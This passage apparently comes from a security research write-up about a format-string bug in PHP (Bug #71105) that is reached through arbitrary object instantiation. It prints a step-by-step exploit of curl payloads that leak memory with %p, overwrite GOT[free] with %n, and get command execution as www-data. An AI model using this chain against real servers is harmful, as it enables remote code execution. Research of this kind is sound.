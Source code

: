 
</PRE>
```c
+--------------------------+   +--------------------------+
|  Arbitrary Object Inst.  |   |      PHP Bug #71105      |
|--------------------------|   |--------------------------|
| <?php                    |   | <?php                    |   +==========+
|   $model = $_GET['mod']; | + |   $name = "%n%n%n";      | = [ B O O M !]
|   $obj = new $model();   |   |   $name::doSomething();  |   +==========+
+--------------------------+   +--------------------------+
```
<PRE>


Originally, this was just an idea collecting dust in my notes, waiting for
the perfect moment to turn it into a challenge - but who knew ten years
would fly by like that? Since the perfect timing never came, maybe this is
the right place to write it down - I mean, it's not every day you get to
see a classic format-string bug popping up in a scripting language. That's
PHP for you!

</PRE>

***=> One two three - pop that FSB!***

<br>

```perl
=> [1] leak address through PHP errors
$ curl "http://orange.local/index.php?model=%p-%p-%p"

  Fatal error: Uncaught Error: Class '0x23-0x7fffb61f3df0-0x7f1b12666000'
  not found in [...]

|-------------------------------- [ next ] -------------------------------|

=> [2] move a heap pointer on stack to `GOT(free)-2`
$ curl "http://orange.local/index.php?model=AAAAAAAAAAA \
        AAAAAAAA-%p-%p-%p-[...]-%p-%p-%p-%015373273d-%n"

  [...]

|-------------------------------- [ next ] -------------------------------|

=> [3] partially overwrite `GOT[free]` to call `system()`
$ curl "http://orange.local/index.php?model='|id&&exit; \
        AAAAAAAA-%p-%p-%p-[...]-%p-%p-%p-%0605504d-%n"

  [...]
  uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
<PRE>


</PRE>
#### ------[  1.2 - When Security Features Make You Less Secure
<PRE>
